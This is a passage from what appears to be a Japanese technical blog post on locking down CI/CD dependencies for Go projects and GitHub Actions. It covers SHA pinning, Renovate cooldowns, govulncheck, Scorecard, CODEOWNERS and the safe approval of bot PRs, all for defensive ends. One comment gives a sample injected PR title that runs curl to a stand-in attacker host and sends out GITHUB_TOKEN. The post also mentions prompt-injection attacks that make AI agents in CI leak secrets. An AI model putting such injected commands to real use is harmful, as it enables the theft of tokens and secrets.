      - name: Verify module cache integrity
        run: go mod verify

      - name: Check vendor consistency
        run: |
          go mod vendor
          git diff --exit-code vendor/
```

`go mod verify` はモジュールキャッシュ内の依存がダウンロード時のハッシュから変更されていないか検証します。`go mod vendor && git diff --exit-code vendor/` は `vendor/` の内容が `go.mod` / `go.sum` と一致しているかを確認し、差分が生じた場合はゼロ以外の終了コードで CI を失敗させます。

CI 内で `go mod vendor` を自動コミットする設計は避けます。意図しない依存追加が差分なしで通過する可能性があるためです。

### govulncheck の実行

govulncheck は「脆弱な関数に実際に到達するか」を静的解析で判定するため、単なるインポート有無ではなく実際の呼び出しグラフに基づいた検出を行います。

```bash
# インストール
go install golang.org/x/vuln/cmd/govulncheck@latest

# ソースコード全体をスキャン
govulncheck ./...

# コンパイル済みバイナリをスキャン
govulncheck -mode binary ./bin/my-app

# JSON 形式で出力 (CI での機械処理向け)
govulncheck -format json ./...
```

govulncheck の制限として、`reflect` パッケージ経由の間接呼び出しは検出できません。Go 1.18 以前でビルドされたバイナリは標準ライブラリの脆弱性のみ報告対象になります。

### Expression injection 回避

`${{ }}` 式を `run:` ブロックに直接埋め込むと、PR タイトルや issue 本文にシェルメタ文字を仕込まれてコマンドインジェクションが発生します。

```yaml
# 危険: PR タイトルが "foo; curl attacker.com/$GITHUB_TOKEN" だと secrets が流出する
- run: echo "${{ github.event.pull_request.title }}"

# 安全: env: ブロックで中間変数に受け、shell が値をコマンドとして解釈しない
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
    ISSUE_BODY: ${{ github.event.issue.body }}
  run: |
    echo "$PR_TITLE"
    echo "$ISSUE_BODY"
```

`env:` ブロック内で `${{ }}` 式を評価し、文字列値を環境変数に格納します。シェルが参照する時点では data として扱われ、code として実行されません。この data / code の分離が expression injection 対策の核心です。zizmor または actionlint を CI に組み込むと、injection リスクのある記述を静的解析で検出できます。

### CODEOWNERS で vendor/ と workflows/ を専用チームに

```text
# .github/CODEOWNERS

# Go 依存の変更は vendor チームのレビューが必須
/vendor/                    @myorg/vendor-reviewers

# GitHub Actions ワークフロー変更は platform-security チームのレビューが必須
/.github/workflows/         @myorg/platform-security

# go.mod / go.sum / renovate.json5 の変更も専用チームが管理
/go.mod                     @myorg/vendor-reviewers
/go.sum                     @myorg/vendor-reviewers
/renovate.json5             @myorg/platform-security
```

`CODEOWNERS` は branch protection の "Require review from Code Owners" と組み合わせることで、指定パスの変更が未レビューのままマージされることを防ぎます。

### Renovate packageRules の運用例

allowlist automerge の例を示します。

```jsonc
"packageRules": [
  {
    // GitHub 公式アクション: 5 日冷却後に自動マージ
    "matchManagers": ["github-actions"],
    "matchPackageNames": ["actions/checkout", "actions/setup-go", "actions/setup-node"],
    "automerge": true,
    "automergeType": "pr",
    "minimumReleaseAge": "5 days"
  },
  {
    // Go 間接依存 (patch 更新のみ): 14 日冷却後に自動マージ
    "matchDepTypes": ["indirect"],
    "matchUpdateTypes": ["patch"],
    "automerge": true,
    "minimumReleaseAge": "14 days"
  },
  {
    // Go 直接依存 (major / minor): 自動マージしない (人間レビュー必須)
    "matchDepTypes": ["require"],
    "matchUpdateTypes": ["major", "minor"],
    "automerge": false
  }
]
```

手動管理対象は `enabled: false` で除外し、更新タイミングと方法を明示的にコントロールします。協調更新が必要な依存や自社パッチを持つフォークは、このパターンで自動更新から外します。

## 運用

### Renovate Dependency Dashboard を軸にした継続更新運用

Renovate は Dependency Dashboard という Issue を自動生成し、保留中・エラー状態の更新 PR を一覧表示します。稼働後の運用サイクルは次の構成が定番です。

- **Dashboard の定期確認**: 週次または Sprint 単位で Dashboard を確認し、長期間マージされない PR や automerge が失敗した PR を拾います。
- **automerge 対象の調整**: 最初は allowlist を厳しく設定し、実績を見ながら automerge 対象を広げます。追加基準は「CODEOWNERS 管理外・本番コードに直接影響しない・公式ソースの devDependencies」が目安です。
- **手動マージ対象の積み残し防止**: `minimumReleaseAge` の待機が明けた PR が Dashboard に溜まるため、週次レビューで消化する担当ローテーションを設けます。

| 確認観点 | 対処 |
|---|---|
| CI が通っているのに automerge されない | branch protection の required checks が全て通過しているか確認する。`automergeType: "pr"` と必須チェック数を照合する |
| 同じ PR が何度も再作成される | `packageRules` の `ignoreUnstable` / `allowedVersions` でバージョン範囲を絞る |
| Dashboard に PR が出ない | `internalChecksFilter: "strict"` + `prCreation: "not-pending"` で `minimumReleaseAge` 未満は PR 自体を作らない設定を確認する |

### cooldown と緊急セキュリティ更新の運用バランス

cooldown (`minimumReleaseAge`) の目的は「侵害リリースがレジストリから取り下げられる猶予を確保する」ことであり、緊急の CVE 修正まで遅らせるものではありません。Renovate のドキュメントは automerge を行う依存に 14 日間の `minimumReleaseAge` を推奨し、Cilium の実例では 5 日間を採用しています。

`vulnerabilityAlerts` は GitHub/GitLab の脆弱性アラートをもとに即時 PR を生成し (cooldown を迂回)、`osvVulnerabilityAlerts` は OSV.dev の脆弱性情報を Dependency Dashboard に表示します (直接依存のみ対象)。Dependabot の場合、`cooldown` は `version updates` 専用であり `security updates` には適用されません [二次情報]。

CVE アラートのトリアージ体制を持たずに cooldown だけ設定すると、アラートが出ても対応されず「未パッチ CVE の dwell time (放置期間) をむしろ増やす」逆効果になります [二次情報]。cooldown を設定する組織は、security update 専用の優先レビュー運用をセットで定義します。

### OpenSSF Scorecard による継続採点

```yaml
# .github/workflows/scorecard.yml
name: Scorecard supply-chain security
on:
  schedule:
    - cron: "30 1 * * 1"  # 毎週月曜
  push:
    branches: ["main"]

permissions:
  security-events: write
  id-token: write
  contents: read

jobs:
  analysis:
    name: Scorecard analysis
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@<SHA> # v4
        with:
          persist-credentials: false
      - uses: ossf/scorecard-action@<SHA> # v2
        with:
          results_file: results.sarif
          results_format: sarif
          publish_results: true
      - uses: github/codeql-action/upload-sarif@<SHA> # v3
        with:
          sarif_file: results.sarif
```

| Scorecard チェック | 対応する施策 |
|---|---|
| `Pinned-Dependencies` | `uses:` の SHA pin / `docker:pinDigests` |
| `Token-Permissions` | ワークフローの `permissions:` 明示 |
| `Branch-Protection` | CODEOWNERS + branch protection 設定 |
| `Dependency-Update-Tool` | Renovate または Dependabot の有効化 |
| `Vulnerabilities` | govulncheck / OSV / Dependabot security alerts |

採点結果は Security tab の Code scanning に SARIF 形式で表示されます。週次 CI + main push ごとの採点でスコア推移を可視化し、低下したチェック項目を改善バックログに積みます。

### GitHub 2026 roadmap への移行準備

GitHub は 2026 セキュリティロードマップで、ワークフロー全体の依存 SHA を宣言・固定する `dependencies:` セクション (go.mod+go.sum のワークフロー版) を発表しています。Public preview を 3〜6 ヶ月以内に予定し、GA はそれ以降を見込む旨が宣言されています (ロードマップ宣言値・将来予定であり、具体的な時期は変動しうる)。Immutable Releases は 2025-10-28 に GA しています。

移行準備として稼働中の組織が取れる行動を示します。

- `pinDigests: true` + Renovate による SHA 自動追従をすでに設定しておくと、`dependencies:` 移行時の差分が最小になります。
- GitHub Actions の `Require actions to be pinned to a full-length commit SHA` をリポジトリポリシーで有効化しておくと、`dependencies:` native 機能への移行と整合します。
- 現時点では「Renovate + SHA pin + branch protection」が推奨運用です。`dependencies:` GA 後に native 機能へ段階移行する計画を立てておきます。

## ベストプラクティス

各項目は「よくある誤解 → 反証 → 推奨」の構造で示します。

### 多層防御で組む — SHA pin 単体を「対策完了」と見なさない

**誤解**: SHA pin を設定すれば依存サプライチェーン攻撃を防ぎ切れる。

**反証**:

- GitHub Actions は「参照 SHA が参照先リポジトリに属するか」を検証しません。悪意あるフォークのコミットを同一 SHA で実行できるため、vaines.org は「unscoped SHA への移行は mutable tag よりむしろ保証が悪い」と批判しています [二次情報]。
- CVE-2025-30066 の侵害期間中に新規採用や pin 更新を行った利用者は、悪意ある SHA を固定してしまいます (初回採用時の TOCTOU)。
- 自分のワークフローを pin しても、そのアクションが内部で非 pin の別アクションを呼ぶ場合は素通りします (transitive deps)。
- 「71% の組織が一度も SHA pin しない」「SHA 変更を伴う version bump をレビュアーが素通りする」という形骸化も報告されています [二次情報]。

**推奨**: SHA pin は「タグへの retroactive 付け替え型攻撃 (tj-actions 級)」を防ぐ有効な層ですが、それ単体で完結させません。次の多層を組み合わせます。

1. **SHA pin** — タグ上書き攻撃対策。Renovate `helpers:pinGitHubActionDigests` で自動追従。
2. **lockfile 厳格化** — `npm ci` / `go mod verify` で改竄検知。
3. **cooldown** — 侵害リリースの短期取り下げ猶予。
4. **OpenSSF Scorecard** — 全施策の継続採点。
5. **SLSA provenance / Artifact Attestations** — ビルドの来歴検証 (構造的な上位層)。

### vendoring 採用判断 — go.sum で代替できる再現性と、固有価値のトレードオフ

**誤解**: Go プロジェクトは go mod vendor を使えば再現性とセキュリティを両立できる。vendoring すればよい。

**反証**:

- `go.sum` + `GOSUMDB` (sum.golang.org) が暗号学的チェックサムと透明ログを提供するため、再現性・改竄検知のためだけなら vendoring は不要です (Go Modules Reference)。
- `vendor/` をコミットすると PR diff が肥大し、GitLab には「vendor フォルダを MR レビューから除外したい」という Issue が立つほど「誰も vendor/ を読まない」実態があります [二次情報]。
- Fedora をはじめとするディストリビューションは bundling (vendoring) を推奨しない方針を持ちます。依存に CVE が出たとき、bundle 元を含む複数パッケージの更新が必要になり管理が複雑化するためです。
- vendoring は「改竄検知」ではなく「固定」であり、正規公開された悪意あるバージョン (Shai-Hulud のような maintainer アカウント侵害) はそのまま `vendor/` に取り込まれます。

**推奨**: vendoring を採用するかどうかを次の基準で判断します。

| 採用を検討する条件 | 採用を避ける条件 |
|---|---|
| エアギャップ環境でのビルドが必要 | go.sum + GOSUMDB で再現性が十分 |
| 推移的依存を PR diff でレビューしたい文化がある | vendor/ の巨大 diff でレビューが形骸化しそう |
| proxy 通信を排除したい規制要件がある | リポジトリサイズ増大を避けたい |

採用する場合は、CI に `go mod verify` → `go mod vendor` → `git diff --exit-code vendor/` のドリフト検出を必ずセットで入れます。

### AI エージェント文脈 — AI の提案を CI ゲートで必ず検査し、CI 内 AI の権限を最小化する

**誤解**: AI コーディングエージェントが依存の追加・CI 設定の変更を提案してくれるので、セキュリティの心配が減る。

**反証**:

- AI は学習時点で安全でも、現時点では CVE が見つかっている古いライブラリを自信を持って提案します。最新の脆弱性情報を保持していないためです [二次情報]。
- 「AI に依存追加を任せる」ことは「AI が選んだ依存をそのまま取り込む」と同義であり、従来のロックダウンが担っていた信頼境界が失われます。
- AI エージェントを CI/CD パイプライン内で動かすこと自体が、prompt injection で高権限トークン (`GITHUB_TOKEN` / cloud key) を漏らす新たな攻撃面になります。public リポジトリの issue に隠し指示を仕込み、AI に secrets を出力させる手口が実証されています [二次情報]。

**推奨**:

- **AI が提案する依存・アクションを CI ゲートで必ず検査する**: SHA pin / lockfile / `govulncheck` / OSV-Scanner を CI に組み込み、AI の提案がゲートを通過してからマージします。
- **CI 内の AI 自動化の権限を最小化する**: AI エージェントに付与する `GITHUB_TOKEN` は read-only に絞り、`permissions:` を明示します。PR 作成・マージの権限は分離します。
- **prompt injection 対策**: 外部コンテンツ (issue タイトル・PR 本文) を処理する場合、`${{ }}` 式を直接 `run:` に埋め込まず環境変数経由で参照します。

### 過剰防御を避ける — small team は高インパクト統制に絞る

**誤解**: SHA pin + vendoring + cooldown + CODEOWNERS + SLSA + Scorecard を全部入れれば安全になる。

**反証**:

- 「セキュリティ活動とセキュリティ効果を混同している組織が多い」という指摘があります。月 1 万件超のアラートのうち 63% が false positive または low-priority ノイズという報告もあります [二次情報]。
- ツール増設より DevSecOps 協調プロセスの ROI が高い場合があります。レビュー容量を超える施策の追加は rubber-stamp (形骸レビュー) を生み、むしろリスクを高めます。
- small team では上流への可視性が低い反面、リソースが限られているため「戦略的・高インパクトな少数の統制」に絞る方が全部入りより良い結果になることがあります [二次情報]。

**推奨**: チーム規模・リスク許容度に応じて段階的に適用します。

| フェーズ | 対象 | 施策 |
|---|---|---|
| 最低限 (全チーム) | GitHub Actions | SHA pin + `permissions:` 明示 + expression injection 対策 |
| 推奨 (小〜中規模) | 全依存 | Renovate `config:best-practices` + cooldown + allowlist automerge |
| 強化 (中〜大規模 / OSS) | Go プロジェクト | go.sum 厳格化 + govulncheck + vendoring 採用判断 |
| 上位層 (大規模 / 規制産業) | 組織全体 | OpenSSF Scorecard + SLSA provenance + CODEOWNERS |

## トラブルシューティング

### inconsistent vendoring エラー

| 項目 | 内容 |
|---|---|
| **症状** | CI で `go: inconsistent vendoring in /path/to/repo: ...` エラーが出てビルドが失敗する |
| **原因** | `go.mod` または `go.sum` を変更した後、`go mod vendor` を実行せずにコミットした。ローカルの `vendor/` と `go.mod` の状態が一致していない |
| **対処** | ローカルで `go mod tidy && go mod vendor` を実行してから再コミットする。CI では `go mod vendor && git diff --exit-code vendor/` を必ず実行し、差分が出たらパイプラインを fail させて開発者に通知する |

```bash
# CI 検証 (差分がある = 開発者が vendor 更新を忘れている)
go mod vendor
git diff --exit-code vendor/ || (echo "vendor/ is out of sync. Run: go mod tidy && go mod vendor" && exit 1)
```

CI で `go mod vendor` を自動実行して差分を自動コミットする構成は、意図しない依存追加が黙って通る危険があります。検証 (diff チェック) と再生成 (手動 vendor) を分けます。

### minimumReleaseAge のリセット罠 / いつまでもマージされない

| 項目 | 内容 |
|---|---|
| **症状** | Renovate が PR を作成しているのに、cooldown 期間が過ぎてもいつまでも automerge されない。または新しいパッケージを追加するたびに待機期間がリセットされる |
| **原因** | パターン 1: `internalChecksFilter: "strict"` が未設定で、Renovate が pending ステータスチェックを正しく更新していない。パターン 2: パッケージの依存グラフが変わるたびに waiting のカウントが再計算される挙動 [二次情報] |
| **対処** | `internalChecksFilter: "strict"` と `prCreation: "not-pending"` を組み合わせると、age 未達の更新は PR 自体を生成しないため「出たがマージされない」状態が解消される。特定パッケージだけ cooldown を無効化したい場合は `packageRules` で該当パッケージに `minimumReleaseAge: null` を指定する |

### bot 自己承認の権限分離リスク

| 項目 | 内容 |
|---|---|
| **症状** | Renovate / Dependabot の PR を bot が自動承認してマージする構成で、意図しない変更がマージされる。または悪意あるコードが「bot の PR」に見せかけてマージされる |
| **原因** | PR 作者の検証を `github.actor` または `github.triggering_actor` だけで行っていると、force-push で actor を操作されてチェックを突破される。`pull_request_target` トリガーを使っている場合、base ブランチのコンテキストで実行されるため secrets が露出するリスクがある |
| **対処** | PR 作者の検証には `github.event.pull_request.user.login` を使う (PR の作者を示し、操作が難しい)。automerge の最終判断は独自ロジックでなく branch protection の required status checks に委ね、`gh pr merge --auto` を使う。Dependabot の場合は `dependabot/fetch-metadata` を使って作者性を検証する |

```yaml
# Dependabot PR の自動承認例 (安全パターン)
- name: Approve Dependabot PR
  if: github.event.pull_request.user.login == 'dependabot[bot]'
  run: gh pr review --approve "$PR_URL"
  env:
    PR_URL: ${{ github.event.pull_request.html_url }}
    GITHUB_TOKEN: ${{ secrets.APPROVE_TOKEN }}

# 非推奨: github.actor は force-push で操作可能
# - if: github.actor == 'dependabot[bot]'
```

Cilium の実装例では `pull_request.user.login == 'cilium-renovate[bot]'` かつ `triggering_actor` が同 bot または `auto-committer[bot]` であることを確認してから automerge を許可します。

### SHA pin 後にバージョンが分からない

| 項目 | 内容 |
|---|---|
| **症状** | `uses: actions/checkout@de0fac2e...` のような行が並び、どのバージョンを使っているか確認できない。セキュリティ alert が出たときにどの SHA が影響を受けているか分からない |
| **原因** | SHA pin 時にバージョンコメントを省略している |
| **対処** | `# vX.Y.Z` の末尾コメントを必ず付ける。Renovate `helpers:pinGitHubActionDigests` を使うと SHA pin + バージョンコメントの自動付与と自動更新が同時に行われる。zizmor で "impostor commit" (参照先リポジトリに属さない SHA) を検出する |

```yaml
# 推奨: SHA + バージョンコメント
uses: actions/checkout@de0fac2e4500dabe0009e67214ff5f5447ce83dd # v4.2.0
```

### impostor commit の検出

| 項目 | 内容 |
|---|---|
| **症状** | zizmor の CI チェックで `impostor_commit` が検出される |
| **原因** | SHA が参照先リポジトリに属さないコミットを参照している。フォーク由来のコミット SHA を誤って使った場合や、悪意あるフォークのコミットを pin してしまった場合に発生する |
| **対処** | zizmor が出力するワークフローファイルと行番号を確認し、該当アクションの正規リポジトリで SHA が実在するか確認する (`https://github.com/<owner>/<repo>/commit/<sha>`)。Renovate で管理しているアクションは正規リポジトリから SHA を取得するため基本的にこの問題は発生しない |

## まとめ

CI/CD の依存統制は、タグや動的解決という「実行時の信頼」を、SHA pin・vendoring・lockfile・cooldown でコミット済みの差分に変え、コードレビューと CI 検証という「レビュー時の信頼」へ前倒しする営みです。tj-actions 事件と AI コーディングエージェントの普及がこの転換を後押ししますが、SHA pin の unscoped 問題・vendoring の巨大 diff・cooldown の潜伏攻撃への無力さといった単層の限界を理解し、チーム規模に応じた多層防御として組むことが実務の結論になります。

この記事が少しでも参考になった、あるいは改善点などがあれば、ぜひリアクションやコメント、SNSでのシェアをいただけると励みになります！

## 参考リンク

### 公式ドキュメント

- [CNCF Blog: Securing CI/CD for an open source project — locking down dependencies (2026-06-12)](https://www.cncf.io/blog/2026/06/12/securing-ci-cd-for-an-open-source-project-locking-down-dependencies/)
- [GitHub Docs: Security hardening for GitHub Actions](https://docs.github.com/en/actions/learn-github-actions/security-hardening-for-github-actions)
- [GitHub Docs: Controlling permissions for GITHUB_TOKEN](https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/controlling-permissions-for-github_token)
- [GitHub Docs: Automating Dependabot with GitHub Actions](https://docs.github.com/en/code-security/dependabot/working-with-dependabot/automating-dependabot-with-github-actions)
- [GitHub Docs: Artifact attestations](https://docs.github.com/en/actions/concepts/security/artifact-attestations)
- [GitHub Blog: What's coming to our GitHub Actions 2026 security roadmap](https://github.blog/news-insights/product-news/whats-coming-to-our-github-actions-2026-security-roadmap/)
- [GitHub Changelog: Immutable releases are now GA (2025-10-28)](https://github.blog/changelog/2025-10-28-immutable-releases-are-now-generally-available/)
- [GitHub Changelog: GITHUB_TOKEN read-only default (2023-02-02)](https://github.blog/changelog/2023-02-02-github-actions-updating-the-default-github_token-permissions-to-read-only/)
- [go.dev: Modules Reference (go.sum / vendoring)](https://go.dev/ref/mod)
- [go.dev: Managing Dependencies](https://go.dev/doc/modules/managing-dependencies)
- [pkg.go.dev: govulncheck](https://pkg.go.dev/golang.org/x/vuln/cmd/govulncheck)
- [docs.renovatebot.com: Minimum Release Age](https://docs.renovatebot.com/key-concepts/minimum-release-age/)
- [docs.renovatebot.com: Helper Presets (pinGitHubActionDigests)](https://docs.renovatebot.com/presets-helpers/)
- [docs.renovatebot.com: Configuration Options](https://docs.renovatebot.com/configuration-options/)
- [docs.renovatebot.com: Upgrade best practices (config:best-practices)](https://docs.renovatebot.com/upgrade-best-practices/)
- [Dependabot options reference (cooldown)](https://docs.github.com/en/code-security/reference/supply-chain-security/dependabot-options-reference)
- [CodeQL Query: actions/missing-workflow-permissions](https://codeql.github.com/codeql-query-help/actions/actions-missing-workflow-permissions/)
- [SLSA Framework](https://slsa.dev/) / [SLSA v1.0 Provenance](https://slsa.dev/spec/v1.0/provenance)
- [OpenSSF Scorecard Checks](https://github.com/ossf/scorecard/blob/main/docs/checks.md) / [ossf/scorecard-action](https://github.com/ossf/scorecard-action)

### ツール

- [Stacklok Blog: Introducing the Frizbee GitHub Action](https://stacklok.com/blog/new-frizbee-features-and-a-github-action-to-automate-pinning-actions-and-container-images)
- [zizmor: GitHub Actions static analyzer](https://docs.zizmor.sh/)
- [actionlint: Static checker for GitHub Actions workflow files](https://rhysd.github.io/actionlint/)

### セキュリティ Advisory / インシデント

- [GitHub Advisory GHSA-mrrh-fwg8-r2c3 (CVE-2025-30066, tj-actions)](https://github.com/advisories/ghsa-mrrh-fwg8-r2c3)
- [CISA Alert: Supply Chain Compromise (2025-03-18)](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction)

### 反証・批判的ソース

- [The Comforting Lie Of SHA Pinning — vaines.org (2026-03)](https://www.vaines.org/posts/2026-03-24-the-comforting-lie-of-sha-pinning/) [二次情報]
- [Package Managers Need to Cool Down — Andrew Nesbitt (2026-03)](https://nesbitt.io/2026/03/04/package-managers-need-to-cool-down.html) [二次情報]
- [Vendoring Go packages by default in Fedora — LWN.net](https://lwn.net/Articles/1005655/)
- [Securing CI/CD in an agentic world — Microsoft Security Blog (2026-06-05)](https://www.microsoft.com/en-us/security/blog/2026/06/05/securing-ci-cd-in-agentic-world-claude-code-github-action-case/) [二次情報]
- [PromptPwned: Prompt Injection in GitHub Actions AI Agents — Aikido](https://www.aikido.dev/blog/promptpwnd-github-actions-ai-agents) [二次情報]

### 日本語

- [GitHub Actions で参照するアクションはコミット SHA で固定するべき — koki / Zenn](https://zenn.dev/kou_pg_0131/articles/gha-should-be-pinned) [二次情報]
- [pinact — suzuki-shunsuke / Zenn](https://zenn.dev/shunsuke_suzuki/articles/pinact-pin-github-actions-version)
- [Dependabot から Renovate へ移行した理由 — ANDPAD Tech Blog (2026-02-12)](https://tech.andpad.co.jp/entry/2026/02/12/100000)
- [AIエージェントの死角。依存関係の脆弱性とサプライチェーン攻撃 — CodeZine (2025-12-11)](https://codezine.jp/article/detail/22526) [二次情報]
- [Renovate で作る「頑張らない」運用のすすめ — sui Tech Blog](https://suntory-n-water.com/blog/automate-dependency-updates-with-renovate) [二次情報]
